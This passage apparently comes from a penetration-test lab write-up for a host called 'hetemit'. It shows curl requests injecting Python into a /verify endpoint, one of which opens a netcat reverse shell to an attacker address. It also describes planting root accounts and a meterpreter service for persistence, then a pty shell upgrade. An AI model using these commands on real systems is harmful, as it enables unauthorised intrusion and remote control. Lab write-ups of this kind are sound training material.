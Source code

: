 ```bash
curl -X POST http://192.168.59.117:5000/verify -d "code=2*2"

# output
4
```

```bash
curl -X POST http://192.168.59.117:50000/verify -d "code=os.getcwd()"

# output
/home/cmeeks/restjson_hetemit
```

```bash
sudo nc -nvlp 50000
curl -X POST http://192.168.59.117:50000/verify -d "code=os.system('nc 192.168.49.59 50000 -e /bin/bash')"
```

## Maintaining Access
Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable. The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again. Many exploits may only be exploitable once and we may never be able to get back into a system after we have already per-formed the exploit. $Author added administrator and root level accounts on all systems compromised. In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to en-sure that additional access could be established.

### Privilege Escalation
```bash
whereis python

# output
python: /usr/bin/python3.6 /usr/bin/python3.6m /usr/lib/python3.6 /usr/lib64/python3.6 /usr/local/lib/python3.6 /usr/include/python3.6m /usr/share/man/man1/python.1.gz
````

```bash
/usr/bin/python3.6 -c "import pty; pty.spawn('/bin/bash');"
export TERM=xterm
```

```bash
whoami

# output
cmeeks
```

```bash
id 

# output
uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)
```
